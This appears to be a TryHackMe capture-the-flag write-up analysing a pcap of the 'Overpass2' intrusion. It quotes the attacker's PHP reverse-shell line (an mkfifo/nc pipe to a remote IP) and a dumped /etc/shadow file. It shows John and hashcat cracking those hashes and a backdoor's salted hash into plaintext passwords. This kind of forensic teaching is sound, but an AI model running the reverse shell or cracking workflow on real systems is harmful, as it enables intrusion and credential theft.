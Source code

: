 # Overpass2 Hacked

### Analyze pcap using wireshark.
* Open in Wireshark
    * Found that they used /development as a page to uploado a reverse shell.
    * They used this PHP code to gain it.
    ```
    <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
    ```
    * Found a password in the pcap: whenevernoteartinstant. It's a password that has sudo access.
    * They used this backdoor to establish a persistent shell https://github.com/NinjaJc01/ssh-backdoor

    * ### Hacker got the contents of /etc/shadow.
    ``` 
    root:*:18295:0:99999:7:::
    daemon:*:18295:0:99999:7:::
    bin:*:18295:0:99999:7:::
    sys:*:18295:0:99999:7:::
    sync:*:18295:0:99999:7:::
    games:*:18295:0:99999:7:::
    man:*:18295:0:99999:7:::
    lp:*:18295:0:99999:7:::
    mail:*:18295:0:99999:7:::
    news:*:18295:0:99999:7:::
    uucp:*:18295:0:99999:7:::
    proxy:*:18295:0:99999:7:::
    www-data:*:18295:0:99999:7:::
    backup:*:18295:0:99999:7:::
    list:*:18295:0:99999:7:::
    irc:*:18295:0:99999:7:::
    gnats:*:18295:0:99999:7:::
    nobody:*:18295:0:99999:7:::
    systemd-network:*:18295:0:99999:7:::
    systemd-resolve:*:18295:0:99999:7:::
    syslog:*:18295:0:99999:7:::
    messagebus:*:18295:0:99999:7:::
    _apt:*:18295:0:99999:7:::
    lxd:*:18295:0:99999:7:::
    uuidd:*:18295:0:99999:7:::
    dnsmasq:*:18295:0:99999:7:::
    landscape:*:18295:0:99999:7:::
    pollinate:*:18295:0:99999:7:::
    sshd:*:18464:0:99999:7:::
    james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
    paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
    szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
    bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
    muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
    ```
# John was able to crack 4 passwords from the shadow file.
```
┌──(zeus-kali㉿kali-vm)-[~/ctf/tryhackme/overpass2hacked]
└─$ john shadowed --wordlist=/usr/share/wordlists/fasttrack.txt 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2021-08-21 18:02) 28.57g/s 1585p/s 7928c/s 7928C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### The backdoor the hacker used has a default hash
* bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
### The backdoor also has a hardcoded salt as 1c362db832f3f864c8c2fe05f2002a05

### Hacker ran this command, which looks like he provided a hash...
```
/backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

# We can use hashcat to crack the password.
### hashcat -m 1710 -a 0 -o cracked.txt hackerhash /usr/share/wordlists/rockyou.txt
#### hashcat gave us this

# We can actually use JOHN for this!!!
## john-the-ripper --format='dynamic=sha512($p.$s)' --wordlist=./rockyou.txt backdoor-hash
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
```
